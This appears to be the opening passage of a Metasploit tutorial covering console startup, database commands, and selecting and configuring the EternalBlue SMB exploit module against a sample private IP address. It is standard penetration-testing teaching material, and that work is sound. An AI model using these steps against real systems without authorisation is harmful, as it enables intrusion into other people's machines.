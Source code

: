 # Metasploit Framework - Comprehensive Guide

Metasploit is a powerful penetration testing framework used for security testing, vulnerability assessment, and ethical hacking. Here's a detailed guide:

## Starting Metasploit

### 1. Launch Metasploit Console
```bash
# Start the main console
msfconsole

# Start with specific database
msfconsole -d

# Start with custom resource script
msfconsole -r script.rc

# Quiet mode (no banner)
msfconsole -q
```

### 2. Database Setup
```bash
# Check database status
db_status

# Initialize database
msfdb init

# Connect to database
db_connect

# Rebuild cache
db_rebuild_cache
```

## Core Metasploit Components

### 1. Exploits
```bash
# Search for exploits
search type:exploit platform:windows

# Show exploit information
info exploit/windows/smb/ms17_010_eternalblue

# Use an exploit
use exploit/windows/smb/ms17_010_eternalblue

# Show exploit options
show options

# Set exploit options
set RHOSTS 192.168.1.100
set RPORT 445
```

